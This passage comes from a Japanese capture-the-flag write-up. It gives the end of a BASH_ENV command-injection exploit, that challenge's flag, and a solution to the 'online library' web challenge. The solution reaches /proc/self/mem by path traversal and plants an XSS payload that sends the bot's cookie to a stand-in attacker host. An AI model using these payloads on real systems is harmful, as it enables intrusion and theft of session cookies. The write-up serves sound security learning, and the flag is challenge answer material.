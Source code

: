 ```python

converted_command = "".join([convert_char(c) for c in COMMAND])
result_payload = f"$({ALPHABET_PAYLOAD};{converted_command})"

res = httpx.get(
    f"{BASE_URL}?env[BASH_ENV]={quote(result_payload)}"
)
assert res.status_code == 200

print(res.text)
```

### フラグ

```
LINECTF{well..what_do_you_think_about}
```

## [web] online library

210 pts, 19 solves

問題文:

> Some weird book library web is under developing now.

### 問題概要

- Express製
- bot（クローラ）のクッキーにフラグがセットされる

### 解法

`/:t/:s/:e` のエンドポイントでpath traversalが可能で、問題サーバ上のread権限がある任意のファイルをoffsetとlengthの指定付きで読むことができる。また、テキストはHTMLとして表示されるので、XSSペイロードを含むテキストをbotにアクセスさせると攻撃が成立する。

ところで、`/proc/self/mem`も読めるのでメモリの中身を直接取り出せる。XSSペイロードがnodeプロセスのメモリに残るような適当なリクエストをあらかじめ投げておいて、メモリ上のペイロードの位置を特定してから、botがそこのメモリを読むようにreportすれば良さそう。

試しに`/identify`エンドポイントで`username`に入れた文字列がメモリ上に残ることを確認したので、上記の攻撃は成立する。

### 攻撃

```python
import httpx
import time

BASE_URL = "http://35.243.100.112"
# BASE_URL = "http://localhost:10100"

HOOK_URL = "https://evil.example.com"
EVIL_CODE = f'</script><script>location="{HOOK_URL}/"+document.cookie</script>'.encode()


MAPS_PREFIX = "<h1>../../../../proc/self/maps</h1><hr/>"
MEM_PREFIX = "<h1>../../../../proc/self/mem</h1><hr/>"

MAX_LEN = 1024 * 256

res = httpx.get(
    f"{BASE_URL}/..%2F..%2F..%2F..%2Fproc%2Fself%2Fmaps/0/6196",
)
assert res.status_code == 200

open("data/maps", "wb").write(res.content)

```

[^bb-1]: 結局この問題では使えなかったが、名前は聞いたことがあったが中身を知らなかった有名脆弱性だったので丁度よい勉強になった。
[^bb-2]: 日本はシェル芸が活発な界隈（？）があるので、資料が豊富でいいですね。この手の問題は日本人が有利かも。